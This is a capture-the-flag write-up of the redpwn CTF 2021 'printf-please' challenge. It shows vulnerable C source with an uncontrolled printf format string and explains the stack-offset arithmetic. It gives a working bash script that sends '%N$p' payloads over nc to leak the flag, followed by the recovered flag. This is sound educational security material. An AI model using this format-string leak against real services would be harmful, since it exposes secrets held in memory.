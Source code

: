 # printf-please

Category: Binary Exploitation

Source: redpwn CTF 2021

Author: NotDeGhost

Score: 10

## Description

Be sure to say please...

```
nc mc.ax 31569
```

## Downloads

[please](https://static.redpwn.net/uploads/1b7ad138d9a03daf43c1de926fa203ecafacb3368bcc96ffa2e92537f825a7ec/please)

[please.c](https://static.redpwn.net/uploads/4c8f3e26de1312c72a9fb141ab6b842dbb86ba895648dabd940e97fc4ed52906/please.c)

## Summary

Classic *leak the flag from the stack*.

## Analysis

### Source Included

```
#include <stdio.h>
#include <fcntl.h>

int main(void)
{
  char buffer[0x200];
  char flag[0x200];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  memset(buffer, 0, sizeof(buffer));
  memset(flag, 0, sizeof(flag));

  int fd = open("flag.txt", O_RDONLY);
  if (fd == -1) {
    puts("failed to read flag. please contact an admin if this is remote");
    exit(1);
  }

  read(fd, flag, sizeof(flag));
  close(fd);

  puts("what do you say?");

  read(0, buffer, sizeof(buffer) - 1);
  buffer[strcspn(buffer, "\n")] = 0;

  if (!strncmp(buffer, "please", 6)) {
    printf(buffer);
    puts(" to you too!");
  }
}
```

The flag is read into `flag` (on stack). To read, use the `printf(buffer)` vuln to read any arbitrary value from the stack with `%xx$p` where `xx` starts at `06` (top of stack). Since `buffer` is allocated first, you'll need to start at `0x200 / 8 + 6` (70).

> Oh, don't for get to start with `please` :-)

## Exploit

```
#!/bin/bash

for ((i=70;;i++)) {
    B=$(echo 'please %'$i'$p' | nc mc.ax 31569 | grep please | awk '{print $2}')
    if echo $B | grep '7d' >/dev/null 2>&1
    then
        echo $B | sed 's/.*7d/7d/' | xxd -r -p | rev; echo
        break
    fi
    echo $B | awk -Fx '{print $2}' | xxd -r -p | rev
}
```

Output:

```
# ./sol.sh
flag{pl3as3_pr1ntf_w1th_caut10n_9a3xl}
```

## Reference

Writeup from https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2021/please